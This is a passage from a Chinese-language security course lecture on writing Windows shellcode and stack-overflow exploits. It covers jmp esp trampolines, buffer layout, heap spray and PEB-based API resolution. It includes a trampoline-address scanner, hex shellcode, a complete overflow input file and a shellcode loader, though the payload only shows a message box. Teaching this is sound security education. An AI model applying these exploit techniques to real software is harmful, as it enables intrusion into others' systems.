

# 第2讲 开发Shellcode

## 开发 shellcode 的艺术

### shellcode 概述

1996 年，Aleph One 在 Underground 发表了著名论文 Smashing the Stack for Fun and Profit，其中详细描述了 Linux 系统中栈的结构和如何利用基于栈的缓冲区溢出。在这篇具有划时代意义的论文中，Aleph One 演示了如何向进程中植入一段用于获得 shell 的代码，并在论文中称这段被植入进程的代码为“shellcode”。后来人们干脆统一用 shellcode 这个专用术语来通称缓冲区溢出攻击中植入进程的代码。


shellcode 往往需要用汇编语言编写，并转换成二进制机器码，其内容和长度经常还会受到很多苛刻限制，故开发和调试的难度很高。

植入代码之前需要做大量的调试工作，例如：
- 弄清程序的输入点？有几个？
- 输入点最终会作为哪个函数的第几个参数？
- 参数会读入到内存中的哪个区域？
- 哪个区域会造成栈溢出？
- 在复制到栈区时，数据有无检查机制，有无限制？
- 计算返回地址的位置，准备覆盖它。
- 计算和选择指令的地址

以上代码植入的过程就是漏洞利用，也称为编写EXPLOIT。

Exploit通常以一段代码形式出现，用于生成攻击性的网络数据包或者其他形式的攻击性输入。expliot的核心是淹没返回地址，劫持进程的控制权，之后跳转去执行shellcode。与shellcode具有一定的通用性不同，exploit 往往是针对特定漏洞而言的。

其实，漏洞利用的过程就好像一枚导弹飞向目标的过程。导弹的设计者关注的是怎样计算飞行路线，锁定目标，最终把弹头精确地运载到目的地并引爆，而并不关心所承载的弹头到底是用来在地上砸一个坑的铅球，还是用来毁灭一个国家的核弹头；这就如同 exploit 关心的是怎样淹没返回地址，获得进程控制权，把 EIP 传递给 shellcode 让其得到执行并发挥作用，而不关心 shellcode 到底是弹出一个消息框的恶作剧，还是用于格式化对方硬盘的穷凶极恶的代码。

随着现代化软件开发技术的发展，模块化、封装、代码重用等思想在漏洞利用技术中也得以体现。试想如果仿照武器的设计思想，分开设计导弹和弹头，将各自的技术细节封装起来，使用标准化的接口，漏洞利用的过程是不是会更容易些呢？其实在第 4 章中将介绍到的通用漏洞测试平台 Metasploit 就是利用了这种观点。Metasploit 通过规范化 exploit 和 shellcode 之间的接口把漏洞利用的过程封装成易用的模块，大大减少了 expliot 开发过程中的重复工作，深刻体现了代码重用和模块化、结构化的思想。在这个平台中：
- （1）所有的 exploit 都使用漏洞名称来命名，里边包含有这个漏洞的函数返回地址，所使用的跳转指令地址等关键信息。
- （2）将常用的 shellcode（例如，用于绑定端口反向连接、执行任意命令等）封装成一个个通用的模块，可以轻易地与任意漏洞的 exploit 进行组合。
- 在 Metasploit 中存在漏洞的受害主机会被当作一个叫“target”的选项进行配置，而 shellcode 同样也有一个更加形象的名字：payload。

#### shellcode 需要解决的问题 

上一章节的代码植入实验中，我们直接用 OllyDbg 查出了栈中 shellcode 的起始地址。而在实际调试漏洞时，尤其是在调试 IE 中的漏洞时，我们经常会发现有缺陷的函数位于某个动态链接库中，且在程序运行过程中被动态装载。这时的栈中情况将会是动态变化着的，也就是说，这次从调试器中直接抄出来的 shellcode 起始地址下次就变了。所以，要编写出比较通用的shellcode 就必须找到一种途径让程序能够自动定位到 shellcode 的起始地址。有关利用跳转指令定位 shellcode 的讨论将在 下节中进行。

缓冲区中包括 shellcode、函数返回地址，还有一些用于填充的数据。下下节中将介绍怎样组织缓冲区内的这些内容。

不同的机器、不同的操作系统中同一个 API 函数的入口地址往往会有差异。还记得 2.4 节中我们是怎样通过 Depends 获得 MessageBoxA 函数入口地址的吗？直接使用手工查出的 API地址的 shellcode 很可能在调试通过后换一台计算机就会因为函数地址不同而出错。为此，我们必须让 shellcode 自己在运行时动态地获得当前系统的 API 地址。3.4 节会带领您综合跳转地址、shellcode 的分布、自动获得 API 等技术，把 2.4 节中那段简陋的 shellcode 改造成比较通用的版本。在这节的实验中还将穿插介绍 shellcode 的调试方法，怎样从汇编代码中提取机器代码等实际操作中将遇到的问题。

3.5 节中将着重介绍如何通过使用对 shellcode 编码解码的方法，绕过软件对缓冲区的限制及 IDS 等的检查。
3.6 节重点介绍了在整个缓冲区空间有限的情况下，怎样使代码更加精简干练，从而尽量缩短 shellcode 的尺寸，开发出短小精悍的 shellcode。这节中的实验部分最终只用了 191 个字节的机器码就实现了一个把命令行窗口绑定到特定端口的 bindshell。

本章前 5 节的知识是在 Windows 平台下开发 shellcode 的核心知识，也是后续学习的基础。当然，如果您对 shellcode 开发技术本身很感兴趣，并且有丰富的汇编语言编程经验，相信 3.6 节中讨论的编程技术对您开发更高级的 shellcode 一定会有所帮助。

### 定位shellcode

#### 栈帧位移与jmp esp
代码植入实验，当我们可以用越界的字符完全控制返回地址后，需要将返回地址改写成 shellcode 在内存中的起始地址。在实际的漏洞利用过程中，由于动态链接库的装入和卸载等原因，Windows 进程的函数栈帧很有可能会产生“移位”，即 shellcode 在内存中的地址是会动态变化的，因此像 2.4 节中那样将返回地址简单地覆盖成一个定值的做法往往不能让 exploit 奏效，必须想出一种方法能够在程序运行时动态定位栈中的 shellcode。



回顾代码植入实验中在verifyPassword函数返回栈中的情况：
- 实线体现了代码植入的流程，将返回地址覆盖为手工查到的shellcode起始地址0x0012FAF0，函数返回后，这个地址被送入EIP寄存器，处理器按EIP指针取指令，最终执行。
- 虚线指出了一个细节，即在函数返回时，ESP正好指向栈帧中返回地址的后一个位置，即当前栈帧的栈顶。


由于ESP寄存器在函数返回后不被溢出数据干扰且始终指向返回地址之后的位置，我们可以使用图 3.2.3 所示的这种定位 shellcode 的方法来进行动态定位。 
- 用内存中任意一个```jmp esp```指令的地址来覆盖函数返回地址，而不是使用手工查找的shellcode起始地址进行覆盖。注意，这里实际上是手工填入了jmp指令地址。
- 函数返回后，被重定向去执行内存中的这条```jmp esp```指令，而不是直接开始执行shellcode。
- 由于esp仍指向原栈帧放返回地址的下方堆栈内容，所以取出ESP所指内容作为跳转地址。
- 重新布置shellcode。在覆盖函数返回地址后，继续覆盖一片栈空间。将缓冲区前变一段地方用任意数据填充，把shellcode恰好摆在返回地址之后，这样```jmp esp```指令执行就恰巧进入shellcode。

这种定位 shellcode 的方法使用进程空间里一条 jmp e sp 指令作为“跳板”，不论栈帧怎么“移位”，都能够精确地跳回栈区，从而适应程序运行中 shellcode 内存地址的动态变化。 

> 1998 年，黑客组织“Cult of the Dead Cow”的 Dildog 在 Bugtrq 邮件列表中以Microsoft Netmeeting 为例首次提出了利用 jmp esp 完成对 shellcode 的动态定位，从而解决了 Windows 下栈帧移位问题给开发稳定的 exploit 带来的重重困难。毫不夸张地讲，跳板技术应该算得上是 Windows 栈溢出利用技术的一个里程碑。 

#### 获取跳板的地址
我们必须首先获得进程空间内一条```jmp esp```指令的地址为跳板。通过第 1 章对 PE 文件和 Win_32 平台下进程 4GB 的虚拟内存空间的学习，我们应当明白除了 PE 文件的代码被读入内存空间，一些经常被用到的动态链接库也将会一同被映射到内存。其中，诸如 kernel.32.dll、user32.dll 之类的动态链接库会被几乎所有的进程加载，且加载基址始终相同。 

可以利用程序通常都会加载的库函数中的```jmp esp```指令，例如之前例子中的user32.dll中的。获得user32.dll 内跳转指令地址最直观的方法就是编程序搜索内存。

```C++
#include <windows.h>     
#include <stdio.h> 
#define DLL_NAME "user32.dll" 

int main() 
{ 
	BYTE* ptr; 
	int position,address; 
	HINSTANCE handle; 
	BOOL done_flag = FALSE; 
	handle = LoadLibrary(DLL_NAME); 
	if(!handle) 
	{ 
		printf(" load dll erro !"); 
		exit(0); 
	} 
	ptr = (BYTE*)handle; 

	for(position = 0; !done_flag; position++) 
	{ 
		try
		{ 
			if(ptr[position] == 0xFF && ptr[position+1] == 0xE4) 
			{ 
			    //0xFFE4 is the opcode of jmp esp 
				address = (int)ptr + position; 
				printf("OPCODE 0xFFE4 found at 0x%x\n",address); 
			} 
		} 
		catch(...) 
		{ 
			address = (int)ptr + position; 
			printf("END OF 0x%x\n", address); 
			done_flag = true; 
		} 
	}
	return 0;
}
```

```jmp esp``` 对应的机器码是 0xFFE4，上述程序的作用就是从 user32.dll 在内存中的基地址开始向后搜索 0xFFE4，如果找到就返回其内存地址（指针值）。下面是在我机器中运行的结果：

```
OPCODE 0xFFE4 found at 0x7e429353
OPCODE 0xFFE4 found at 0x7e4456f7
OPCODE 0xFFE4 found at 0x7e455af7
OPCODE 0xFFE4 found at 0x7e45b310
OPCODE 0xFFE4 found at 0x7e47bcaf
OPCODE 0xFFE4 found at 0x7e47bcbf
OPCODE 0xFFE4 found at 0x7e47bccb
OPCODE 0xFFE4 found at 0x7e48227c
OPCODE 0xFFE4 found at 0x7e4830ec
OPCODE 0xFFE4 found at 0x7e48321c
OPCODE 0xFFE4 found at 0x7e483840
OPCODE 0xFFE4 found at 0x7e48494b
OPCODE 0xFFE4 found at 0x7e484a13
OPCODE 0xFFE4 found at 0x7e484cb8
OPCODE 0xFFE4 found at 0x7e484cc0
OPCODE 0xFFE4 found at 0x7e484cc4
OPCODE 0xFFE4 found at 0x7e484f27
OPCODE 0xFFE4 found at 0x7e4850d8
OPCODE 0xFFE4 found at 0x7e4850dc
OPCODE 0xFFE4 found at 0x7e4850e0
OPCODE 0xFFE4 found at 0x7e48516f
OPCODE 0xFFE4 found at 0x7e4851a4
OPCODE 0xFFE4 found at 0x7e4851ac
OPCODE 0xFFE4 found at 0x7e485233
OPCODE 0xFFE4 found at 0x7e4856f7
OPCODE 0xFFE4 found at 0x7e485d9f
OPCODE 0xFFE4 found at 0x7e486940
OPCODE 0xFFE4 found at 0x7e48699c
OPCODE 0xFFE4 found at 0x7e4869a8
OPCODE 0xFFE4 found at 0x7e486a38
OPCODE 0xFFE4 found at 0x7e486b54
OPCODE 0xFFE4 found at 0x7e486b58
OPCODE 0xFFE4 found at 0x7e486b5c
OPCODE 0xFFE4 found at 0x7e487443
OPCODE 0xFFE4 found at 0x7e48748b
OPCODE 0xFFE4 found at 0x7e48754c
OPCODE 0xFFE4 found at 0x7e48b2f7
OPCODE 0xFFE4 found at 0x7e48b3b3
OPCODE 0xFFE4 found at 0x7e48d29b
OPCODE 0xFFE4 found at 0x7e48dce8
OPCODE 0xFFE4 found at 0x7e48eb78
OPCODE 0xFFE4 found at 0x7e48ecac
OPCODE 0xFFE4 found at 0x7e4903ab
OPCODE 0xFFE4 found at 0x7e490473
OPCODE 0xFFE4 found at 0x7e490718
OPCODE 0xFFE4 found at 0x7e490720
OPCODE 0xFFE4 found at 0x7e490724
OPCODE 0xFFE4 found at 0x7e490b38
OPCODE 0xFFE4 found at 0x7e490b3c
OPCODE 0xFFE4 found at 0x7e490b40
OPCODE 0xFFE4 found at 0x7e490c04
OPCODE 0xFFE4 found at 0x7e490c0c
OPCODE 0xFFE4 found at 0x7e491157
OPCODE 0xFFE4 found at 0x7e4917ff
OPCODE 0xFFE4 found at 0x7e4921a3
OPCODE 0xFFE4 found at 0x7e49227c
OPCODE 0xFFE4 found at 0x7e4922f8
OPCODE 0xFFE4 found at 0x7e492378
OPCODE 0xFFE4 found at 0x7e49237c
OPCODE 0xFFE4 found at 0x7e492380
OPCODE 0xFFE4 found at 0x7e4923a4
OPCODE 0xFFE4 found at 0x7e492400
OPCODE 0xFFE4 found at 0x7e4924bc
OPCODE 0xFFE4 found at 0x7e49252c
OPCODE 0xFFE4 found at 0x7e492530
OPCODE 0xFFE4 found at 0x7e4925b0
OPCODE 0xFFE4 found at 0x7e492647
OPCODE 0xFFE4 found at 0x7e4926c7
OPCODE 0xFFE4 found at 0x7e492fb7
OPCODE 0xFFE4 found at 0x7e498c4f
OPCODE 0xFFE4 found at 0x7e498c5f
OPCODE 0xFFE4 found at 0x7e498c6b
END OF 0x7e4a1000
Press any key to continue
```

如果您想使用别的动态链接库中的地址（如“kernel32.dll”、“mfc42.dll”等），或者使用其他类型的跳转地址（如 call esp、jmp ebp 等），也可以通过对上述程序稍加修改而轻易获得。

除此以外，还可以通过 OllyDbg 的插件轻易地获得整个进程空间中的各类跳转地址。您可以到看雪论坛的相关版面下载到这个插件（OllyUni.dll），并把它放在 OllyDbg 目录下的Plugins 文件夹内，重新启动 OllyDbg 进行调试，在代码框内单击右键，就可以使用这个插件了。

####  使用“跳板”定位的 exploit 

仍然使用之前的代码作为攻击目标，实验环境如下：
- windowsxp
- vc++ 6
- 默认编译选项
- debug版本exe

运行我们自己编写程序搜索跳转地址得到的结果和 Olly Dbg 插件搜到的结果基本相同。

> 跳转指令的地址将直接关系到 exploit 的通用性。事实上，kernel32.dll 与 user32.dll 在不同的操作系统版本和补丁版本中也是有所差异的。最佳的跳转地址位于那些“千年不变”且被几乎所有进程都加载的模块中。

这里不妨采用位于内存 0x7e490724 处的跳转地址 jmp esp 作为定位 shellcode 的“跳板”。 在制exploit 的时候，还应当修复上一讲中 shellcode 无法正常退出的缺陷。为此，我们在调用 ```MessageBoxA``` 之后，通过调用 ```exit``` 函数让程序干净利落地退出。 

这里仍然用 dependency walker 获得这个函数的入口地址。如图 3.2.6 所示， ExitProcess 是 kernel32.dll 的导出函数，故首先查出 kernel32.dll 的加载基址 0x7C800000，然后加上函数的偏移地址0x0001CDDA，得到函数ExitProcess入口地址为0x7c81CDDA。

写出的 shellcode 的源代码如下所示：
```c
#include <windows.h>     
int main() 
{ 
	HINSTANCE LibHandle; 
	char dllbuf[11] = "user32.dll"; 
	LibHandle = LoadLibrary(dllbuf); 
	_asm{ 
		sub  esp,0x440
		xor  ebx,ebx
		push ebx		// cut string 
		push 0x74736577 
		push 0x6C696166	//push failwest 
		mov  eax,esp		//load address of failwest 
		push ebx 
		push eax 
		push eax 
		push ebx 
		mov  eax,0x7E4507EA // MessageboxA entrypoint.
		call eax			// call MessageboxA 
		push ebx 
		mov eax,0x7C81CAFA  // ExitProcess entrypoint
		call eax //call ExitProcess exit(0) 
	} 
} 

```

为了提取出汇编代码对应的机器码，我们将上述代码用 VC6.0 编译运行通过后，再用OllyDbg 加载可执行文件，选中所需的代码后可直接将其 dump 到文件中，内容如下：

```
81 EC 40 04 00 00 33 DB 53 68 77 65 73 74 68 66
61 69 6C 8B C4 53 50 50 53 B8 EA 07 45 7E FF D0
53 B8 FA CA 81 7C FF D0
```

通过 IDA Pro 等其他反汇编工具也可以从 PE 文件中得到对应的机器码。当然，如果熟悉intel 指令集，也可以为自己编写专用的由汇编指令到机器指令的转换工具。 

现在我们已经具备了制作新 exploit 需要的所有信息:
- 搜索到了```jmp esp```地址，用作重定位shellcode的跳板：0x7e490724
- 修改后的shellcode。

按照 2.4 节中对栈内情况的分析，我们将 password.txt 制作成如下形式：

```
44 43 42 41 44 43 42 41 44 43 42 41 44 43 42 41 44 43 42 41 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 24 07 49 7E 33 DB 53 68 77 65 73 74 68 66 61 69 6C 8B C4 53 50 50 53 B8 EA 07 45 7E FF D0 53 B8 FA CA 81 7C FF D0
```


### 缓冲区的组织

如果选用```jmp esp```作为定位shellcode的跳板，那么函数返回后要根据缓冲区大小、所需shellcode长短等实际情况灵活布置缓冲区。送入缓冲区的数据可以分为以下几种：
- 填充物（padding）：可以为任何值，一般用NOP指令（即机器码0x90）来填充缓冲区，并把shellcode置于其后。这样，即便不能准确jmp到shellcode的开始，也能跳转到它前面的nop指令，最终会执行shellcode。
- 覆盖返回地址的数据：可以是人工查出的shellcode起始地址，也可以是某个jmp esp的地址。
- shellcode：可以执行的机器码。

在缓冲区中怎样摆放shellcode对exploit的成功至关重要。

2.4 节的 exploit 中，shellcode 只有几十个字节，我们干脆把它直接放在缓冲区 buffer[44]里，所以 shellcode 位于函数返回地址之前。 
3.2 节的 exploit 中，我们使用了跳转指令 jmp esp 来定位 shellcode，所以在溢出时我们比2.4 节中多覆盖了一片内存空间，把 shellcode 恰好布置在函数返回地址之后。 

您会在稍后发现把 shellcode 布置在函数返回地址之后的好处（不用担心自身被压栈数据破坏）。但是，超过函数返回地址以后将是前栈帧数据（栈的方向，内存高址），而一个实用的shellcode 往往需要几百个字节，这样大范围地破坏前栈帧数据有可能引发一些其他问题。例如，若想在执行完 shellcode 后通过修复寄存器的值，让函数正常返回继续执行原程序，就不能随意破坏前栈帧的数据。 


当缓冲区较大时，我们倾向于像上一章节中那样把 shellcode 布置在缓冲区内。这样做有以下好处。 
- （1）合理利用缓冲区，使攻击串的总长度减小：对于远程攻击，有时所有数据必须包含在一个数据包中！ 
- （2）对程序破坏小，比较稳定：溢出基本发生在当前栈帧内，不会大范围破坏前栈帧。

使用JMP ESP指令跳板时，也可以把shellcode放在缓冲区中，只是需要将返回地址下方字填充为 JMP shellcode 头部，也即JMP ESP跳转到这里后，再跳到shellcode起始位置。

#### 抬高栈顶保护shellcode
把 shellcode 布置在缓冲区内有好处也有问题：
- 函数返回时，当前栈帧被弹出，这时缓冲区位于栈顶ESP之上的内存区域，这段区域cpu认为已经作废，但数据并没有修改或销毁。如果再返回后没有PUSH操作，则不会破坏；反之，有PUSH操作则可能破坏shellcode。
- 当缓冲区相对shellcode较大时，把shellcode布置再缓冲区的前端（地址低址方向），此时shellcode离栈顶较远，几次压栈只会破坏一些无用nop，但如果缓冲区被shellcode占满则可能被push指令覆盖。

为了使 shellcode 具有较强的通用性，我们通常会在 shellcode 一开始就大范围抬高栈顶(即修改esp，使其变执行地址更低的栈帧空间），把 shellcode“藏”在栈内，从而达到保护自身安全的目的。


#### 使用其它跳转指令

使用 jmp esp 做跳板的方法是最简单的，也是最常用的定位shellcode方法。在实际的漏洞利用过程中，应当注意观察漏洞函数返回时所有寄存器的值。除了esp，其它的eax、ebx、esi等寄存器也会指向栈顶附近，跳板指令也可以使用这些寄存器，例如```mov eax,esp```和```jmp eax```等指令序列也能完成跳板工作。

这里给出常用跳转指令与机器码的对应关系：

|机器码（十六进制） | 对应的跳转指令 | 机器码（十六进制）|  对应的跳转指令| 
|-|-|-|-|
|FF E0 | JMP EAX  |FF D0  |CALL EAX |
|FF E1 | JMP ECX | FF D1 | CALL ECX |
|FF E2  |JMP EDX | FF D2 | CALL EDX |
|FF E3 | JMP EBX | FF D3 | CALL EBX |
|FF E4 | JMP ESP | FF D4 | CALL ESP |
|FF E5 | JMP EBP | FF D5 | CALL EBP |
|FF E6 | JMP ESI | FF D6 | CALL ESI |
|FF E7  |JMP EDI  |FF D7 | CALL EDI |

你可以在之前给出的搜索jmp esp指令程序的基础上进行修改，找出这类指令的系统内存地址。

#### 不使用跳转指令

个别有严苛限制条件的漏洞，不允许我们使用跳转指令定位shellcode，而使用shellcode的静态地址来覆盖返回地址又不够准确，这时可以采用一个折中办法：如果能够覆盖大片内存区域，则可以将 shellcode 布置在一大段 nop 之后。这时定位 shellcode 时，只要能跳进这一大片
nop 中，shellcode 就可以最终得到执行。

在浏览器漏洞利用时，常常采用的Heap spray（堆喷射）技术就是使用了上述缓冲区分布思想。

#### 函数返回地址移位

在一些情况下，返回地址距离缓冲区的偏移量是不确定的，这时我们也可以通过前面增加大片nop指令的方法来提高exploit的成功率。

如果函数返回地址的偏移按DWORD不定，可以用一串连续的跳转指令的地址来覆盖函数返回地址，只要其中一个能够成功覆盖返回地址就能实现我们的目标。

如下图所示：


还有些情况会比较棘手，考虑由strcat产生的漏洞：
```strcat(“程序安装目录”，输入字符串)；```

而不同的主机可能会有不同的程序安装目录。例如：
```
c:\failwest\ 
c:\failwestq\ 
c:\failwestqq\ 
c:\failwestqqq\ 
```

这样，函数返回地址距离我们输入的字符串的偏移在不同的计算机上就有可能按照字节错
位，如下图所示。


图中本想把函数返回地址覆盖为 0x7C81CDDA 处的跳转地址，在本机调试通过后，有可能会由于其他计算机上作为字符串前半部分的程序安装目录不同，而使覆盖的地址错位失效。这样，我们精心设计的 exploit 在别的计算机上可能只有 1/4 的成功率，通用性大大降低。 

解决这种尴尬情况的一个办法是使用按字节相同的双字跳转地址，甚至可以使用堆中的地址，然后想办法将 shellcode 用堆扩展的办法放置在相应的区域。这种 heap spray 的办法在 IE
漏洞的利用中经常使用，如图所示。


### 开发通用的shellcode

#### 定位API的原理

回顾之前我们如何定位windows api函数MessageBoxA和ExitProcess。我们通过Dependency Walker这样的工具去查找和计算。你会发现不同机器中这些函数的地址。这是由于：
- 不同OS 版本在加载动态链接库时有不同的加载基址。
- 不同版本的OS补丁会影响和修改这些动态链接库中的函数，使得内容不相同，基址和偏移量都有可能变化。

由于上述原因，手工查找的地址可能会失效，在shellcode中使用静态函数地址来调用API有很大限制，所以实际中使用shellcode要能够动态获取自己的API函数地址。

Windows 的API是通过动态链接库中的导出函数来实现的，例如：
- 内存操作等函数在 kernel32.dll中实现
- 大量图形相关api在 user32.dll中实现

Win32平台下的shellcode使用最广泛的方法，就是通过从进程环境块中找到动态链接库的导出表，并搜索所需的API地址，然后逐一调用。

所有win32程序都会加载ntdll.dll和kernel32.dll这两个最基础的DLL。如果想要在win32平台下定位kernel32.dll中的API可以采用如下方法：
- 首先，通过段选择字FS在内存中找到当前的线程环境块TEB.
  - 通过读取FS寄存器指定的内存可以获得很多系统关键信息， 主要是和进线程相关的很多信息。
  - 在内核态FS=0x30, 在用户态FS=0x3B
- TEB的偏移位置为0x30的地方存放着执行进程环境块PEB的指针。
- 进程环境块PEB中偏移位置为0x0C的地方存放着执行PEB_LDR_DATA结构体的指针，其中存放着已经被进程装载的动态链接库的信息。
- PEB_LDR_DATA结构体偏移位置0x1C的地方存放着指向模块初始化链表的头指针 InInitializationOrderModuleList。
- 模块化初始化链表InInitializationOrderModuleList 中按顺序存放着PE装入运行时初始化模块的信息，第一个链表节点是ntdll.dll，第二个链表节点是 kernel32.dll。
- 找到属于 kernel32.dll的模块初始化链表节点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中加载基地址，xp下常为0x7c800000。
- 从 kernel32.dll 的加载基址算起，偏移 0x3C的地方就是其nt PE头的偏移地址，通常是0xf0。
- PE头偏移0x78的地方（即kernel32.dll base+0xF0+0x78，或base+0x168）存放着指向函数导出表的指针（offset）。
- 至此，我们可以按如下方式在函数导出表中计算出所需函数的入口地址（注意这里是base的offset地址）。
  - 导出表偏移0x20处的指针指向存储导出函数函数名的列表。在这个表中逐一取出（index记录变化）函数名字符串并hash，然后和目标函数的hash值比较匹配
  - 导出表偏移0x2c处的指针指向了ordinal table，对应index处有调用函数的ordinal
  - 导出表偏移0x1C处的指针指向存储导出函数偏移地址RVA的列表。RVA中相应ordinal处就是函数的地址。
  
  - 函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位所需的函数是第几个，然后在地址列表中找到对应的RVA。
  - 获得RVA后，再加上前面已经得到的动态链接库的加载基址，就获得了所需API此刻在内存中的虚拟地址，这个地址就是我们最终在shellcode中调用所需的地址。


按照上述方法，可以获得 kernel32.dll中的任意函数。类似地，我们可以定位 ws2_32.dll 中的winsock函数来编写一个能够远程shell的真正shellcode了。

在摸透了 kernel32.dll中所有导出函数之后，结合使用其中的两个函数 LoadLibrary() 和GetProcAddress()，有时可以让定位所需其它的API工作变得容易。

#### shellcode的加载与调试

Shellcode的最常见形式就是用转移字符把机器码存在一个字符数组中，例如之前我们弹出消息框并能正常退出的shellcode可以存为如下形式：

```
char box_popup[]=
"\x66\x81\xEC\x40\x04" // SUB SP,440
"\x33\xDB" // XOR EBX,EBX
"\x53" // PUSH EBX
"\x68\x77\x65\x73\x74" // PUSH 74736577
"\x68\x66\x61\x69\x6C" // PUSH 6C696166
"\x8B\xC4" // MOV EAX,ESP
"\x53" // PUSH EBX
"\x50" // PUSH EAX
"\x50" // PUSH EAX
"\x53" // PUSH EBX
"\xB8\xEA\x04\xD8\x77" // MOV EAX,user32.MessageBoxA
"\xFF\xD0" // CALL EAX
"\x53" // PUSH EBX ;/ExitCode
"\xB8\xDA\xCD\x81\x7C" // MOV EAX,kernel32.ExitProcess
"\xFF\xD0"; // CALL EAX ;\ExitProcess 
```

如果在互联网上搜集常用的 shellcode，一般得到的也是类似的存于字符数组的机器码。我们本节实验中将对上述代码进行完善，加入自动获取 API 入口地址的功能，最终得到的也是类似这种形式的机器代码。

虽然这种形式的 shellcode 可以在 C 语言中轻易地布置进内存的目标区域，但是如果出了问题，往往难于调试。所以，在我们开始着手改造 shellcode 之前，先看看相关的调试环境。

由于 shellcode 需要漏洞程序已经初始化好了的进程空间和资源等，故往往不能单独运行。
为了能在实际运行中调试这样的机器码，我们可以使用这样一段简单的代码来装载 shellcode。

```c
char shellcode[]="\x66\x81\xEC\x40\x04\x33\xDB……";//欲调试的十六
 //进制机器码"
void main()
{
	__asm
	{
		lea eax, shellcode
		push eax
		ret
	}
} 
```

ret 指令会将 push 进去的 shellcode 在栈中的起始地址弹给 EIP，让处理器跳转到栈区去执行 shellcode。我们可以用这段装载程序运行搜集到的 shellcode，并调试之。若搜集到的 shellcode不能满足需求，也可以在调试的基础上稍作修改，为它增加新功能。

#### 动态定位 API 地址的 shellcode 

下面我们给shellcode加入自动定位的API功能。为了实现弹出消息框显示“failwest”的功能，需要使用如下 API 函数。
- （1）MessageBoxA 位于 user32.dll 中，用于弹出消息框。
- （2）ExitProcess 位于 kernel32.dll 中，用于正常退出程序。
- （3）LoadLibraryA 位于 kernel32.dll 中。并不是所有的程序都会装载 user32.dll，所以在我
们调用 MessageBoxA 之前，应该先使用 LoadLibrary(“user32.dll”)装载其所属的动态链接库。

通过前面介绍的 win_32 平台下搜索 API 地址的办法，我们可以从 FS 所指的线程环境块开始，一直追溯到动态链接库的函数名导出表，在其中搜索出所需的 API 函数是第几个，然后在函数偏移地址（RVA）导出表中找到这个地址。

由于 shellcode 最终是要放进缓冲区的，为了让 shellcode 更加通用，能被大多数缓冲区容纳，我们总是希望 shellcode 尽可能短。因此，在函数名导出表中搜索函数名的时候，一般情况下并不会用“MessageBoxA”这么长的字符串去进行直接比较。

通常情况下，我们会对所需的 API 函数名进行 hash 运算，在搜索导出表时对当前遇到的函数名也进行同样的 hash，这样只要比较 hash 所得的摘要（digest）就能判定是不是我们所需的 API了。虽然这种搜索方法需要引入额外的 hash 算法，但是可以节省出存储函数名字符串的代码。

本节实验中所用 hash 函数的 C 代码如下。
```c
#include <stdio.h>
#include <windows.h>

DWORD GetHash(char *fun_name)
{
	DWORD digest=0;
	while(*fun_name)
	{
		digest=((digest<<25)|(digest>>7)); 
		digest+= *fun_name ; 
		fun_name++;
	}
	return digest;
}
main()
{
	DWORD hash;
	hash= GetHash("AddAtomA");
	printf("result of hash is %.8x\n",hash);
} 
```

如上述代码，我们将把字符串中的字符逐一取出，把 ASCII 码从单字节转换成四字节的双字（DWORD），循环右移 7 位之后再进行累积。代码中只比较经过 hash 运算的函数名摘要，也就是说，不论 API 函数名多么长，我们只需要存一个双字就行。而上述 hash 算法只需要用 ror 和 add 两条指令就能实现。

题外话：在下一节中，我们将讨论怎样精简 shellcode 的长度，其中会详细讨论按照什么标准来选取 hash 算法。实际上您会发现 hash 后的摘要并不一定是一个双字（32bit），精心构造的 hash 算法可以让一个字节（8bit）的摘要也满足要求。

API 函数及 hash 后的摘要如表:

|API函数名|经过hash运算后得到的摘要|
|-|-|
|MessageBoxA | 0x1e380a6a|
|ExitProcess | 0x4fd18963 |
|LoadLibraryA | 0x0C917432|

在将hash压入堆栈前，注意先将增量标志DF清零。因为如果shellcode是利用异常处理基址而植入的时候，往往会产生标志位的变化，使 shellcode 中的字符串处理方向发生变化而产生错误（例如指令LODSD)。如果您在堆溢出利用中发现原本很好用的shellcode在运行中出错，很可能就是这个原因。总之一个字节的指令可以大大增加shellcode的通用性。

现在将这些hash结果压入堆栈中，并用一个寄存器标识位置，已被后面搜索API函数时使用。
```asm
;store hash
